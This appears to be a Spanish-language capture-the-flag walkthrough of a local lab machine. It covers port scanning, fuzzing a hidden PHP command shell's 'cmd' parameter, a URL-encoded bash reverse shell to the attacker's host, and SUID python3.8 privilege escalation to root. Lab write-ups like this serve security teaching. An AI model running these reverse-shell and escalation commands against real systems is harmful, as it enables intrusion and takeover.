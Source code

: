 Escaneo de puertos con Nmap
```
nmap -p- -sC -sV -sS --min-rate 5000 -n -vvv -Pn 172.17.0.2 -oN escaneo
```

![[Pasted image 20251030200715.png]]

Observo lo que corre por el puerto 80:

![[Pasted image 20251030200748.png]]

Revisando el código fuente de esta página web al final de la primera línea me encuentro con:

![[Pasted image 20251030201336.png]]

Accederé a este posible directorio /hidden/.shell.php

![[Pasted image 20251030201439.png]]

Es una página en blanco 

No encontré nada mas relevante lo único que se me ocurre es probar en esta página si existe una RFI (Remote File Inclusion), pero me falta el parámetro principal para ver si esta parte de la web es vulnerable, la encontraré con Wfuzz
```
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/hidden/.shell.php?FUZZ=whoami' --hl 0
```


![[Pasted image 20251030201952.png]]

Ese parámetro que me falta es cmd

Procedo a explotar la RFI, por ejemplo con el comando "whoami", para ver el usuario que sería en la máquina:

![[Pasted image 20251030202154.png]]

Y efectivamente me respondió

Ya teniendo forma de comunicarme con la máquina procederé a pasarle como comando una Reverse Shell que apunte hacia mi Kali, pero primero Urlencodearé el comando para que la pagina web me la reconozca y sea exitosa la conexión me ayudaré de Burpsuite para ello:
![[Pasted image 20251030203429.png]]
```
bash -c "bash -i >& /dev/tcp/192.168.1.35/443 0>&1"

%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%33%35%2f%34%34%33%20%30%3e%26%31%22
```

![[Pasted image 20251030203505.png]]

La página se queda "pensando", me pongo a la escucha con Netcat:

![[Pasted image 20251030203545.png]]

Y recibo exitosamente la conexión, ahora estoy dentro de la máquina

Tratamiento de la TTY:
```
script /dev/null -c bash 
Ctrl z
stty raw -echo; fg 
reset xterm 
export SHELL=bash
export TERM=xterm
```

![[Pasted image 20251030203713.png]]
![[Pasted image 20251030203734.png]]

## ESCALADA DE PRIVILEGIOS

Observo los binarios que contiene esta página:
```
find / -perm -4000 -ls 2>/dev/null
```

![[Pasted image 20251030204121.png]]

Me llama la atención el binario Python3.8

Ahora procederé a mirar en GTFOBins como puedo escalar con este binario en una SUID:

![[Pasted image 20251030204145.png]]

Lo ejecuto:
```
 /usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![[Pasted image 20251030204308.png]]

Y listo, ya soy ROOT
